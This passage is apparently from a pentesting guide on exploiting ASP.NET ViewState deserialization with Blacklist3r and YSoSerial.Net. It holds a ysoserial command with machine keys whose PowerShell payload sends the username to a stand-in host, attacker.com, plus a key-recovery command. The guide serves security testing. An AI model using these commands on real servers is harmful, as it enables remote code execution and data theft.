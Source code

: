 ```bash
cd badsecrets
python examples/blacklist3r.py --viewstate JLFYOOegbdXmPjQou22oT2IxUwCAzSA9EAxD6+305e/4MQG7G1v5GI3wL7D94W2OGpVGrI2LCqEwDoS/8JkE0rR4ak0= --generator B2774415
```

![https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png](https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png)

Once a valid Machine key is identified, **the next step is to generate a serialized payload using** [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)

```
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
```

If you have the value of `__VIEWSTATEGENERATOR` you can try to **use** the `--generator` parameter with that value and **omit** the parameters `--path` and `--apppath`

![](https://notsosecure.com/sites/all/assets/group/nss_uploads/2019/06/4.2.png)

A successful exploitation of the ViewState deserialization vulnerability will lead to an out-of-band request to an attacker-controlled server, which includes the username. This kind of exploit is demonstrated in a proof of concept (PoC) which can be found through a resource titled "Exploiting ViewState Deserialization using Blacklist3r and YsoSerial.NET". For further details on how the exploitation process works and how to utilize tools like Blacklist3r for identifying the MachineKey, you can review the provided [PoC of Successful Exploitation](https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/#PoC).

### Test Case 6 – ViewStateUserKeys is being used

The **ViewStateUserKey** property can be used to **defend** against a **CSRF attack**. If such a key has been defined in the application and we try to generate the **ViewState** payload with the methods discussed till now, the **payload won’t be processed by the application**.\
You need to use one more parameter in order to create correctly the payload:

```bash
--viewstateuserkey="randomstringdefinedintheserver"
```

### Result of a Successful Exploitation <a href="#poc" id="poc"></a>

For all the test cases, if the ViewState YSoSerial.Net payload works **successfully** then the server responds with “**500 Internal server error**” having response content “**The state information is invalid for this page and might be corrupted**” and we get the OOB reques.

Check for [further information here](<https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization/[**https:/www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/**](https:/www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/)/README.md>)

## References
